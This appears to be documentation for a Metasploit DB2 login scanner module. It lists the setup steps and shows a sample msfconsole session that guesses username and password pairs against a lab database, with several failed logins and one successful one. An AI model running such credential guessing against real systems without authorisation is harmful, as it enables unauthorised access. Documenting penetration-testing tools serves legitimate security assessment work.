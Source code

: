 ## Vulnerable Application

This module attempts to authenticate against a DB2 instance using username and password combinations indicated by the USER_FILE, PASS_FILE, and USERPASS_FILE options.

More information can be found on the [Rapid7 Vulnerability & Exploit Database page](https://www.rapid7.com/db/modules/auxiliary/scanner/db2/db2_auth) and https://nvd.nist.gov/vuln/detail/CVE-1999-0502

## Verification Steps

  1. Start msfconsole
  2. Do: `use auxiliary/scanner/db2/db2_auth`
  3. Do: `show options`
      ...show and set options...
  4. Do: `run`

## Scenarios

    ```
    msf > use auxiliary/scanner/db2/db2_auth
    msf auxiliary/scanner/db2/db2_auth) > show options
    msf auxiliary/scanner/db2/db2_auth) > set USERNAME db2inst1
    msf auxiliary/scanner/db2/db2_auth) > set PASSWORD db2pass
    msf auxiliary(scanner/db2/db2_auth) > set DATABASE testdb
    msf auxiliary/scanner/db2/db2_auth) > set RHOST 172.17.0.2
    msf auxiliary/scanner/db2/db2_auth) > run
      [-] 172.17.0.2:50000      - 172.17.0.2:50000 - LOGIN FAILED: db2inst1:db2inst1@testdb (Incorrect: )
      [-] 172.17.0.2:50000      - 172.17.0.2:50000 - LOGIN FAILED: db2inst1:dasusr1@testdb (Incorrect: )
      [-] 172.17.0.2:50000      - 172.17.0.2:50000 - LOGIN FAILED: db2inst1:db2fenc1@testdb (Incorrect: )
      [*] 172.17.0.2:50000      - Login Successful: db2inst1:db2pass
      [*] 172.17.0.2:50000      - Scanned 1 of 1 hosts (100% complete)
      [*] Auxiliary module execution completed
    ```
